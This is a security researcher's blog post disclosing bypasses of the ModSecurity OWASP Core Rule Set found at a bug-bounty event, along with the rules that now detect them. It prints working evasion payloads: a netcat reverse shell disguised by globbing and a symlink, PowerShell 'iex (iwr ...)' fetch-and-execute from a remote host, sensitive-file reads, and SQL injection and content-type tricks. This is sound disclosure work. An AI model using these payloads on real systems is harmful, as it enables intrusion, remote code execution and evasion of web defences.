

10 minutes
Bypassing ModSecurity CRS for RCE(s)

Hola amigos! I’m excited to finally share this blog post that I started back in 2022. After some time away, I’ve finally gathered the energy to complete and publish this blog.
Today’s post explores the bypasses I discovered for the OWASP CRS (Core Rule Set) Project during 1337UP0522 live hacking event hosted by The Paranoids team at Yahoo in collaboration with Intigriti. Needless to mention, the event was a blast!
Quick Primer to WAFs
Web Application Firewalls (WAFs) serve as a crucial security layer that blocks web-based attacks. The concept is straightforward: when an attacker sends a malicious request, the WAF intercepts and blocks it before it can reach the web application. WAFs operate by detecting attacks through a set of predefined rules. ModSecurity, for instance, is a popular open-source WAF implementation. A widely-adopted and compatible ruleset for ModSecurity is available through the OWASP CRS (Core Rule Set) Project.
How does ModSecurity and CRS work together?
Before we explore the bypasses in detail, it is important to understand the relationship between ModSecurity and CRS. In essence, ModSecurity serves as the engine that inspects and analyses HTTP requests and responses, while CRS provides the ruleset that matches various attack patterns.
CRS works in phases when inspecting requests and responses. A high level overview of how CRS works depicted below:
Essentially, every phase of the WAF inspects certain parameters of the HTTP transaction for anomalies:
- Phase 1: Inspects HTTP request headers (e.g. blacklisted user-agents, protocol violations, etc).
- Phase 2: Inspects the HTTP request body / parameters (e.g. SQLI, XSS, RCEs, etc.)
- Phase 3: Inspects the response headers (e.g. sensitive data leaks, session management, etc.)
- Phase 4: Inspects the response body (e.g. sensitive data leaks, stack traces, etc.)
- Phase 5: Logging what was found in the previous phases (for audits, rule tuning, etc.)
CRS uses Anomaly Scoring to decide whether a request gets through or gets blocked. It also gives you different Paranoia Levels that you can adjust based on how secure you want your setup to be.
Anomaly Scoring
From official docs:
Anomaly scoring, also known as “collaborative detection”, is a scoring mechanism used in CRS. It assigns a numeric score to HTTP transactions (requests and responses), representing how ‘anomalous’ they appear to be. Anomaly scores can then be used to make blocking decisions. The default CRS blocking policy, for example, is to block any transaction that meets or exceeds a defined anomaly score threshold.
In short, CRS uses a point-based system called Anomaly Scoring to determine if a request is malicious. Each suspicious pattern adds points to a request’s score. If the total score exceeds a threshold, the request gets blocked.
Paranoia Levels
From the official docs:
The paranoia level (PL) makes it possible to define how aggressive CRS is.
A higher paranoia level makes it harder for an attacker to go undetected. Yet this comes at the cost of more false positives: more false alarms. That’s the downside to running a rule set that detects almost everything: your business / service / web application is also disrupted.
To sum it up, Paranoia Levels basically tell you how thoroughly you want the WAF to examine incoming HTTP requests. CRS has 4 paranoia levels, PL1 to PL4, with PL1 giving you basic protection and PL4 being super aggressive.
The higher you go with paranoia levels, the more rules get turned on and the stricter the filtering gets. While PL4 gives you maximum security, it can really mess with your normal traffic. Most people stick with PL1 or PL2 to keep things balanced.
Rules in CRS
Now let’s talk about how rules work in CRS.
Rules within CRS are defined by the SecRule directive. Each SecRule follows the following structure:
SecRule {VARIABLES} {OPERATOR} {"ACTIONS"}
VARIABLES: Defines which parts of the HTTP transaction to inspect (REQUEST_HEADERS,REQUEST_BODY, etc).OPERATOR: Defines how to evaluate the rules, for example, regex matching (@rx), substring matching (@contains), etc.ACTIONS: Defines what to do if the rule matches (phases, IDs, transformations, logging, blocking, scoring, etc).
So if a rule looks like:
SecRule REQUEST_HEADERS:User-Agent "@rx curl/.*" "id:1010,phase:1,log,pass,msg:'Detected curl client'"
Variable (REQUEST_HEADERS:User-Agent)
- Directs ModSecurity to look at the
User-Agentheader.
Operator (@rx curl/.*)
- Uses regex matching to match any
User-Agentcontainingcurl/{any_version}.
Actions
- Action (
id:1010): Assigns a unique ID to the rule. - Action (
phase:1): Runs the rule during request header parsing. - Action (
log): Writes a log entry when the rule matches. - Action (
pass): Allows the request to continue processing. No blocking or dropping occurs. - Action (
msg:'Detected curl client'): Adds a custom message describing the detection.
The Bypasses
Now, lets talk about the bypasses that I crafted. For the bypasses below, I will break down my thought process on how I crafted the bypasses, listing down the steps of crafting a bypass.
Spawning Reverse Shells
Spawning a reverse shell in *nix systems is pretty straightforward. A simple /bin/nc -e /bin/bash 10.0.0.2 10002 will connect back to your pingback server and you’ll be able to execute commands on the target machine.
However, CRS properly detects and blocks the usage of nc (and all other variants).
This is where bash shell globbing patterns came to rescue. I tried using the following:
/[abc]in/nc -e /bin/bash 10.0.0.2 10002
It expands to match:
/ain/nc/bin/nc<- Points to our binary/cin/nc
But that got blocked as well since /bin/bash was also being detected. /bin/zsh, though was not being detected. All other shell variants, e.g. /bin/sh, /bin/fish, /bin/ash etc, were blocked. So I was able to come up with:
/[abc]in/nc -e /bin/zsh 10.0.0.2 10002
However, the pattern was still being blocked because nc -e is a very known syntax for spawning reverse shells. Fiddling around for a way to get around this situation, I figured out that ln (used for linking files) is not blocked.
The final bypass payload looked similar to this:
ln -s /[abc]in/nc /tmp/pew; /tmp/pew -e /bin/zsh 10.0.0.2 10002
At the time of publishing the article, a set of 5 rules detect the payload:
930120- OS File Access Attempt (PL1)932130- Remote Command Execution: Unix Shell Expression Found (PL1)932160- Remote Command Execution: Unix Shell Code Found (PL1)932240- Remote Command Execution: Unix Command Injection evasion attempt detected (PL2)932236- Remote Command Execution: Unix Command Injection (command without evasion) (PL2)
Executing Arbitrary PowerShell
There are specific PowerShell cmdlets allow you to fetch and run remote scripts directly in memory without the payload touching the disk. A very common fileless attack technique looks something like the following:
Invoke-Expression (Invoke-WebRequest http://10.0.10.10:8000/x.ps1)
Invoke-WebRequest fetches the x.ps1 file from the remote host and Invoke-Expression executes it as PowerShell code.
As expected, CRS blocks both cmdlets Invoke-Expression and Invoke-WebRequest.
Windows Powershell, however, comes with a set of built-in aliases for a lot of the cmdlets – most of which ModSecurity did not have in its blacklists.
That gives us a quick and neat bypass:
iex (iwr http://10.0.10.10:8000/x.ps1)
PowerShell can be used to execute binaries on a Windows machine, something similar to powershell.exe C:\windows\system32\notepad.exe, which pops up a notepad. Windows PowerShell does not require the extension to execute, that gives us our second bypass, nothing magical:
powershell C:\wind??s\*32\note*.exe
To break the above payload down:
?- Matches exactly 1 character*- Matches 0 or more charcters
So essentially:
wind??smatches windows*32matches the system32 foldernote*.exematches notepad.exe
At the time of publishing the article, the following two rules detect the payload:
932120- Remote Command Execution: Windows PowerShell Command Found (PL1)932240- Remote Command Execution: Unix Command Injection evasion attempt detected (PL2)
Accessing Local Files
This section of bypasses was more RTFM than hacker magic. CRS blacklists a list of default sensitive files that should not be allowed in HTTP requests.
The blacklist for SSH private keys within CRS looked something like this:
.ssh/authorized_keys
.ssh/config
.ssh/id_dsa
.ssh/id_dsa.pub
.ssh/id_rsa
.ssh/id_rsa.pub
.ssh/identity
.ssh/identity.pub
.ssh/known_hosts
Already noticed what’s missing? Yep, .ssh/id_ecdsa and .ssh/id_ecdsa.pub are missing.
Similarly, it was missing a couple of other missing important files:
/etc/security/pwquality.conf
/etc/security/faillock.conf
These gives us our third bypass.
This bypass was properly fixed by updates to the lfi-os-files.data which is utilised by rule 930120.
Abusing Legacy Protocols and PHP Wrappers
A lesser known, legacy Java (<= JDK 8) protocol is netdoc:, which acts similarly to the file: protocol in Java-based XML parsers. CRS appropriately detects most of the protocols like http://, ftp://, file://, etc, but does not filter out netdoc:. This makes it possible to bypass CRS in Java environments (<= JDK 8).
netdoc:///etc/passwd
Combining the above missing files, we can cook something like this:
netdoc:///etc/security/pwquality.conf
Missing PHP wrappers also contributed to another bypass, I noticed that compress.zip://, zlib://, glob://, expect://, zip://, etc were blocked, however compress.bzip2:// wasn’t.
compress.bzip2://path/to/sensitive.bz2
The following 2 rules detect these payloads now:
931130- Possible Remote File Inclusion (RFI) Attack: Off-Domain Reference/Link (PL2)933200- PHP Injection Attack: Wrapper scheme detected (PL1)
Complete Request Body Bypass
This one deserves a special mention as it probably is the most interesting of all my findings that I stumbled upon.
When reading up documentation and source code of how ModSecurity activates inspection of rules, I found that ModSecurity employs specific body processors based upon the identified Content-Type header. These processors are designed to understand and break down the request body into a usable structure for rule evaluation.
The JSON and XML parsers are dynamically activated by rules within the ModSecurity configuration, typically the ctl:requestBodyProcessor action within a SecRule matching the corresponding Content-Type header.
Some parsers supported by the WAF engine are:
application/x-www-form-urlencoded: The default behavior for forms. ModSecurity parses this into theARGS(arguments) variables, accessible to rules.multipart/form-data: Used for file uploads. This is a more complex format requiring specialized parsing to differentiate between form fields and uploaded files.application/json: Engages the JSON parser.(text|application)/xml: Engages the XML parser.
This clicked something in my head – what about backends do not rely on the Content-Type header to process requests. What happens when I use text/plain? To my surprise, it worked. Payloads as simple as cat ../../etc/passwd (which will easily get detected at PL1) went through the WAF completely unchecked.
Lets try to understand why this bypass is dangerous.
Suppose a user login endpoint request looks something like this:
POST /login HTTP/1.1
Host: api.domain.com
Content-Type: application/json
Content-Length: 40
{"username":"admin","password":"admin"}
A classic SQL injection attack to bypass the login flow would look like this:
POST /login HTTP/1.1
Host: api.example.com
Content-Type: application/json
Content-Length: 48
{"username":"admin","password":"idkthepassword' OR 1=1--"}
With CRS enabled, the following rules would come shouting at you:
942130 PL2 SQL Injection Attack: SQL Boolean-based attack detected
942180 PL2 Detects basic SQL authentication bypass attempts 1/3
942330 PL2 Detects classic SQL injection probings 1/3
942390 PL2 SQL Injection Attack
942521 PL2 Detects basic SQL authentication bypass attempts 4.1/4
942522 PL2 Detects basic SQL authentication bypass attempts 4.1/4
If the backend of the application does not rely on the Content-Type request header value and it decodes the request body anyway, ModSecurity will fall back to the default request body parser leading to the following bypass with the Content-Type header set to text/plain.
POST /login HTTP/1.1
Host: api.example.com
Content-Type: text/plain
Content-Length: 48
{"username":"admin","password":"idkthepassword' OR 1=1--"}
The CRS project has since removed the non-standard text/plain from its list of allowed values within the Content-Type header (6a9c854) and has introduced a warning message about the bypass:
# Bypass Warning: some applications may not rely on the content-type
# request header in order to parse the request body. This could make
# an attacker able to send malicious URLENCODED/JSON/XML payloads
# without being detected by the WAF. Allowing request content-type
# that doesn't activate any body processor (for example: "text/plain",
# "application/x-amf", "application/octet-stream", etc..) could lead
# to a WAF bypass. For example, a malicious JSON payload submitted with
# a "text/plain" content type may still be interpreted as JSON by a
# backend application but would not trigger the JSON body parser at the
# WAF, leading to a bypass. To avoid bypasses, you must enable the appropriate
# body parser based on the expected data in the request bodies (For example
# JSON for JSON data, XML for XML data, etc).
CRS now detects such non-standard content-types via:
920420- Request content type is not allowed by policy
Credits Where Its Due
ModSecurity and the OWASP Core Rule Set (CRS) are invaluable contributions to the open-source community.
I would like to extend my appreciation to their maintainers for their continued support of such a critical security project. My thanks also go to Intigriti and the @TheParanoids team at Yahoo for organizing the hacking event and for the kind invitation to participate.
That’s all folks. Thank you for reading! Cheers! 🥂
2098 Words
2025-08-21 00:00